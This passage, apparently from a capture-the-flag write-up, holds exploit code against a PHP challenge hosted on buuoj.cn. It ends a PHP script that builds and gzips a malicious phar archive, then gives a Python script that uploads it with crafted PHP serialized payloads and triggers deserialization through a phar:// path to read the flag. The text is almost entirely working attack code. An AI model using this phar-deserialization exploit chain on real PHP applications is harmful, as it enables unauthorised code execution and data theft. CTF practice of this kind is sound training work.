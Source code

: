 		  system("tar -cf exp1.tar .phar/");
		  
		  system("gzip exp1.tar -f");
		  
		  system("rm -rf .phar exp1.tar")
		  
		  ?>
		  ```
	- test.py
		- ```python
		  
		  url = "http://f158c838-3269-4309-a278-e68c93230025.node4.buuoj.cn:81/"
		  
		  one = 'a:2:{i:0;O:1:"D":1:{s:5:"start";s:1:"w";}i:1;-i:1;}'
		  
		  zero = fileread.readbytesfrom("exp1.tar.gz")
		  
		  r = base_post(url, data = {
		      "0": zero,
		      "1": one
		  })
		  
		  re_obj = re.search("/tmp/[0-9a-f]+?\.jpg", r.text)
		  if not re_obj:
		      print(r.text)
		      raise ValueError("Not Fount")
		  
		  file_path = re_obj.group(0)
		  
		  print(file_path)
		  
		  one = 'a:2:{i:0;O:1:"D":1:{s:5:"start";s:1:"r";}i:1;-i:1;}'
		  
		  zero = "phar://{}/test.txt".format(file_path)
		  
		  r = base_post(url, data = {
		      "0": zero,
		      "1": one
		  })
		  
		  re_obj = re.search("the others([\s\S]+?)<br />", r.text)
		  
		  if re_obj:
		      print(re_obj.group(1))
		  else:
		      print(r.text)
		  
		  ```